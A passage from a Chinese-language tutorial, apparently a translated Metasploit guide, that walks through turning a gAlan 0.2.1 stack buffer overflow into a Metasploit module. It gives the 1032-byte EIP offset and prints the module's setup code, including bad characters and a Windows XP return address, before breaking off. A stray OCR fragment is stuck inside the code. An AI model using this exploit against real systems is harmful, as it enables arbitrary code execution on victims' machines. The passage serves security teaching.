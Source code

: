 因此，要传递的总字节数，以便获得`EIP`的确切位置，为 1032。

现在我们已经收集了关于利用的足够信息，我们准备将其转换为 Metasploit 模块。

## 它是如何工作的...

让我们开始构建我们的模块。脚本的第一行将是导入库并创建父类。然后，我们将定义包含有关利用的信息并注册选项的`initialize()`函数：

```
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
include Msf::Exploit::FILEFORMAT
def initialize(info = {})
super(update_info(info,
'Name' => 'gAlan 0.2.1 Buffer Overflow Exploit',
'Description' => %q{
This module exploits a stack overflow in gAlan 0.2.1
By creating a specially crafted galan file, an attacker may be able
to execute arbitrary code.
},
'License' => MSF_LICENSE,
'Author' => [ 'original by Jeremy Brown' ],
'Version' => '$Revision: 7724 $',
'References' =>
[
[ 'URL', 'http://www.exploit-db.com/exploits/10339' ],
],
'DefaultOptions' =>
{
'EXITFUNC' => 'process',
},
'Payload' =>
{
'Space' => 1000,
'BadChars' => "\x00\x0a\x0d\x20\x0c\x0b\x09",
'StackAdjustment' => -3500,
Metasploit moduleworking},
'Platform' => 'win',
'Targets' =>
[
[ 'Windows XP Universal', { 'Ret' => 0x100175D0} ], # 0x100175D0 call esi @ glib-1_3
],
'Privileged' => false,
'DefaultTarget' => 0))
register_options(
[
OptString.new('FILENAME', [ false, 'The file name.', 'evil.galan']),
], self.class)
end

```

到目前为止，一切都很简单明了。转折点在于定义`exploit()`函数。让我们看看如何做到这一点。
